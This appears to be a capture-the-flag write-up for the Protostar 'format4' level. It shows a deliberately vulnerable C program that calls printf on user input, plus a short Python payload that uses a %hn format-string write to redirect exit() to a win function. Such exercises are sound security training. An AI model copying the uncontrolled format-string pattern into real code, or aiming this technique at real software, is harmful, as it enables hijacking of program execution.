

# Format Four

## Description

format4 looks at one method of redirecting execution in a process.

Hints:

* objdump -TR is your friend

This level is at /opt/protostar/bin/format4

## Source code

```cpp
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
  printf("code execution redirected! you win\n");
  _exit(1);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printf(buffer);

  exit(1);  
}

int main(int argc, char **argv)
{
  vuln();
}
```

## Exploit code

```python
fmt_offset = 4
win  = 0x080484b4
exit = 0x08049724

payload = "\x24\x97\x04\x08" + "%33968c" + "%4$hn"
print(payload)
```

Level passed!

<p align="center">
    
</p>